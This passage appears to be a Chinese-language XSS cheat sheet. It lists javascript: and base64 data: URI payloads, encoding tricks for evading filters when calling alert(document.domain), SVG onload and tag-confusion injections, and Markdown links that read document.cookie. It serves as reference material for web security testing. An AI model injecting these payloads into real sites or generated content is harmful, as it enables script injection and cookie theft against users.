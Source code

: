 - 特殊标籤
    - 以下标籤中的脚本无法执行
    - `<title>`, `<textarea>`, `<iframe>`, `<plaintext>`, `<noscript>`...

- 伪协议
    - javascript:
        - `<a href=javascript:alert(1) >xss</a>`
    - data:
        - `<a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==>xss</a>`
- Javascript自解码机制
    - `<input type="button" onclick="document.write('&lt;img src=@ onerror=alert(1) /&gt;')" />`
    - 会成功`alert(1)`，因为javascript位于HTML中，在执行javascript前会先解码HTML编码
    - 但若是包在`<script>`中的javascript，不会解码HTML编码
    - 此编码为HTML entity和`&#xH;`(hex), `&#D;`(dec)形式

- Javascript中有三套编码/解码函数
    - escape/unescape
    - encodeURI/decodeURI
    - encodeURIComponent/decodeURICompinent

- 一些alert(document.domain)的方法
    - `(alert)(document.domain);`
    - `al\u0065rt(document.domain);`
    - `al\u{65}rt(document.domain);`
    - `window['alert'](document.domain);`
    - `alert.call(null,document.domain);`
    - `alert.bind()(document.domain);`
    - https://gist.github.com/tomnomnom/14a918f707ef0685fdebd90545580309

- Some Payload
    - `<svg/onload=alert(1);alert(2)>`
    - `<svg/onload="alert(1);alert(2)">`
    - `<svg/onload="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;;alert(2)">`
        - `;;`改成`;`会失败
        - 双引号可去掉
        - 可10进制, 16进制混合
    - `<svg/onload=\u0061\u006c\u0065\u0072\u0074(1)>`
        - \u形式只能用在javascript，例如onload的a改成\u0061会失败
    - `<title><a href="</title><svg/onload=alert(1)>`
        - title优先权较大，直接中断其他标籤
    - `<svg><script>prompt&#40;1)</script>`
        - 因为`<svg>`，HTML Entities会被解析
        - 去掉`<svg>`会失败，`<script>`不会解析Entities
    - `<? foo="><script>alert(1)</script>">`
    - `<! foo="><script>alert(1)</script>">`
    - `</ foo="><script>alert(1)</script>">`
    - `<% foo="><script>alert(1)</script>">`

- Markdown XSS
    - `[a](javascript:prompt(document.cookie))`
    - `[a](j a v a s c r i p t:prompt(document.cookie))`
    - `[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)`
    - `[a](javascript:window.onerror=alert;throw%201)`
    - ...
